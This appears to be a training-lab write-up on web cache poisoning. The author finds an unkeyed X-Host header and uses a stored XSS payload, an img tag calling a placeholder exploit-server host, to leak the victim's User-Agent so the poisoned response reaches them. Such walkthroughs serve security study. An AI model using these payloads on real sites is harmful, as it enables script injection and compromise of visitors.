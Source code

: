 Here we have to make sure that the response is served to the specific subset of users to which the intended victim belongs. That means that **probably the user-agent header is a key header, and we have to guess it in order to be able to deliver the payload to the victim.** 

First, we used param miner on the part of the page we know that the cache attack is (the main page, where the user visits). Param miner detects a secret input in the form of the `X-Host` header:
![](imgs/cache_xss_unknown_header.png)

We can already specify our exploit server address in this header and serve a malicious payload.
![](imgs/cache_xss_unknown_header-2.png)

The next step is to know the user-agent of the victim, as that is a cache key. How do we know it? Because the response of the server has a `Vary` header indicating that the User-Agent header is a cache key: 
![](imgs/cache_xss_unknown_header-1.png)
In order to know that, we have a place where we can perform a XSS attack: the comment page.
Adding a simple script that makes a GET request to our exploit server or collaborator will make the client make this request and therefore return its User-Agent so we can cache the attack. 

The XSS payload used is simple:
`<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`

We can see the request containing the User-Agent header: 
![](imgs/cache_xss_unknown_header-3.png)

![](imgs/cache_xss_unknown_header-4.png)

Copy this user agent and add it into the request. This will finish all the steps:
![](imgs/cache_xss_unknown_header-5.png)